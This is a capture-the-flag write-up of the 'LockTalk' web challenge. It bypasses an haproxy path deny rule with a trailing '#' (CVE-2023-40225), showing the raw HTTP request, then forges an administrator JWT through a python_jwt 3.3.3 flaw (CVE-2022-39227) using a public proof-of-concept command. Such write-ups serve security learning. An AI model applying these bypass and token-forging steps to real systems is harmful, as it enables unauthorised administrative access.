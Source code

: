## Title

Lock Talk

## Description

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

## Solution

After analyzing the web application files we retrieved the following information:
- Programming language: Python
- Other config services: haproxy
- The web app has an api endpoint with the following routeS:
    - `/get_ticket`: Endpoint to get the guest JWT token to use the chat endpoint
    - `/chat/<int:chat_id>`: Endpoint  that receives a chat_id that its an int and needs guest or admin role
    - `/flag`: Endpoint that shows the challenge flag but needs the admin role(admin JWT token)
    - There is a middleware that ensures the security of the endpoints that uses roles(middleware.py).
    - There is only one administrator JWT token that is created when the web app is initialized and its an RSA token with the size of 2048(Can't bruteforce )
    - If we can grab the administrator JWT token we can impersonate as administrator and call the `/flag` endpoint to retrieve the flag.
    - Goal: Get the Administrator JWT token.
- Besides that the web app has a endpoint in `/`.

We have a problem:
- We can't obtain the guest token since its been blocked by haproxy:

```
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
    
```

The following configuration blocks every request that the path begins with /api/v1/get_ticket and decode the url.
Since we need bypass haproxy and the version is 2.8.1, we search for CVE's: `https://repology.org/project/haproxy/cves?version=2.8.1`.
- https://nvd.nist.gov/vuln/detail/CVE-2023-40225
- https://nvd.nist.gov/vuln/detail/CVE-2023-45539

The first CVE(**CVE-2023-40225**) worked!!
An explanation is here: `https://lists.debian.org/debian-lts-announce/2023/12/msg00010.html`
If we call the `/api/v1/get_ticket` with a `#` character at the end it works

```
GET /api/v1/get_ticket# HTTP/1.1
Host: 94.237.62.149:47578
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.62.149:47578/
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
```

Then we add the ticket like `Authorization: eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxNzI4NzYsImlhdCI6MTcxMDE2OTI3NiwianRpIjoidDFXR3pnVUlpaFBQbmhDY2prNlloZyIsIm5iZiI6MTcxMDE2OTI3Niwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.VzLVYMdIyZj-KJwh3CJpOZoLxqTnAaV9iNA8T0XUzdfAsDVjDp9dN33jYlOebVKFRiq_N886ltoCENffw9N6x67qX4LNLugmCWBJ0RZq3X7qkttHQ7zMAm-RtL47ZRB1CZ_wKRB9tmKrLz_LB-4uLvzd6gsMPF5Uquhn3afiyq_se4UyvUCUEDEJixbRMpzhTTcyKrwp85cQ5_ZluA9Do8sxFFAUOfuDP5Vd_ajUfB5QYC0GsBTkyD7qtKVrdw8uTOIq2dkKB8MvUQGEYRl68syATuaeaJ6wnaBxsLWez4Q5hLxRpY-ezqKS58722PT_yzzc3AdcH84WuiF2auNWYw`

Next challenge is to try to impersonate as the adminitrator role and call the flag endpoint.
I try to use [`jwt_tool`](https://github.com/ticarpi/jwt_tool) to change our token to the admin role but the middleware verifies the signature and denies it.

After trying directory transversal throught the `/api/v1/chat` and not being successful I decided to look for the version of the package that verifies and generates the jwt tokens. I found odd that in the requirements.txt it uses a specific version:

```
uwsgi
Flask
requests
python_jwt==3.3.3
```

Looking for vulnerabilities of that particular version I [found](https://github.com/advisories/GHSA-5p8v-58qm-c7fp) a critical vulnerability that lets us forge new claims. Another link [here](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp).

Looking for pocs of that CVE(**CVE-2022-39227**) I found [this](https://github.com/user0x1337/CVE-2022-39227).
I added the role of administrator and generate a new token.

```
python3 cve_2022_39227.py  -j eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxNzM3NjAsImlhdCI6MTcxMDE3MDE2MCwianRpIjoidHk1WEdZTEtIc2NDQm93YzAteEZ5USIsIm5iZiI6MTcxMDE3MDE2MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.QuccsaQ_NHGETQLBnD-bZC1IeyIRo5nJgbK0ZHTynvx-yDf9lZVmlG1DkJdJ7jKLD1hD0CCJoO-eGc2Fk_4u3UHvcuF2XzUj0qOyHlkAMkkDx2BnwfryFUZkMN7TdctmZo5MbM5Oq3MSAVj7vTHU2r8PHJprDkmxP1KcLNPx5YOl27GoHRBXnJ9Hhs1S8CPbvwPOaSTXd5VUvNGcINKIYvvXYFD4RUnUyBtBR3LnTMqa5S12EfgSglZpaUCIYXLrSxons70VLIjqT8BhraAorLPiBkzjDR0RrszlUihNHRwFF_GATsuKmnoEmQsDjQmVsTp-MNn3gjdBfQxgXz0VQQ -i role=administrator
```

After that i called the flag endpoint and got the flag: `HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`
